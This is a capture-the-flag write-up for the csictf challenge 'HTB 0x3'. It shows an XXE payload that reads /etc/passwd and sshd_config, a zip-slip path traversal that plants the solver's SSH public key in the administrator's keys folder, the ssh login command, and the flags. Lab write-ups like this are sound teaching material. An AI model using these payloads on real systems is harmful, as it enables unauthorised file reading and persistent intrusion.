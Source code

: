 # HTB 0x3

Author: [thebongy](https://github.com/thebongy) and [roerohan](https://github.com/roerohan)

## Description

Hackthebox challenge 3.

## Requirements

- Docker

## Sources

```
Server is at 34.93.215.188.
```

## Exploit

Once you complete `HTB 0x2`, you can see 2 pages, `/admin` and `/home`. `/admin` has an XXE vulnerability, so you can read `/etc/passwd` using the following payload:

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

There, you see a link: 

```
...
csictf:x:1005:1006:csictf,csictf,csictf,csictf,csictf:/home/csictf:/bin/bash
administrator:x:1006:1007:administrator,admin,admin,admin,admin:/home/administrator:/bin/bash
https://gist.github.com/sivel/c68f601137ef9063efd7
```

When you visit that link you find out some information about a custom ssh authentication. You can use XXE again to get `sshd_config`.

```
# csictf{cu5t0m_4uth0rizat10n}
AuthorizedKeysCommand /usr/local/bin/userkeys.sh
AuthorizedKeysCommandUser nobody
```

You notice 2 things. First, the flag for `HTB 0x5`. Next, you see that there's a custom authorization command. 

```bash
$ cat /usr/local/bin/userkeys.sh
#!/bin/bash

if [ "$1" == "csictf" ]; then
        cat /home/administrator/uploads/keys/*
else
        echo ""
fi
```

You can see that the script prints all the keys in `/home/administrator/uploads/keys/*` and uses them for authentication. So, we identify the target where we need to place our payload (ssh key). We know that on `/home` we can upload zip files, so this might be exploitable through `zip-slip`. We can upload a zip with a path like `../../../../../../../../home/administrator/uploads/keys/id_rsa.pub`, where `id_rsa.pub` holds our public key (put enough `../../` so that the path becomes absolute). Now that your public key is on the server, you can just `ssh csictf@34.93.215.188 -p 3000` and you're in the server. You can `cat flag.txt` on the server.

The flag is:

```
csictf{w3lc0m3_t0_th3_s3rv3r}
```